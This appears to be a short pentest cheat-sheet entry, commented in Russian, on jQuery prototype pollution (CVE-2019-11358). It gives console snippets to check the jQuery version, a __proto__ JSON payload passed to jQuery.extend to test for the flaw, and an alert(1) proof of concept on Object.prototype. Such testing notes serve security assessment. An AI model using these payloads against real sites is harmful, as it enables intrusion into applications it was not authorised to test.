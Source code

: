 # Prototype pollution

### CVE-2019-11358
- check version JQuery:
```jQuery && jQuery.fn && console.log(jQuery.fn.jquery);```
- check vuln:
```
jQuery.extend(true, {}, JSON.parse('{"__proto__":{"polluted":"yes"}}'));
console.log("After:", ({}).polluted); // если true/ "yes" — уязвимо
```
- poc: 
```
// 1) Сначала очистим старые следы (ещё раз, на всякий случай)
try { delete Object.prototype.__poc_alert; } catch(e){}

// 2) Безопасно добавим НЕперечисляемое свойство в Object.prototype
Object.defineProperty(Object.prototype, "__poc_alert", {
value: function(){ alert(1); },
writable: true,
configurable: true,
enumerable: false // важно: НЕ перечисляемое — не ломает for..in
});

// 3) Вызовем его
({}).__poc_alert(); // должен показать alert(1)

// 4) Удалим его (очистка)
delete Object.prototype.__poc_alert;
```

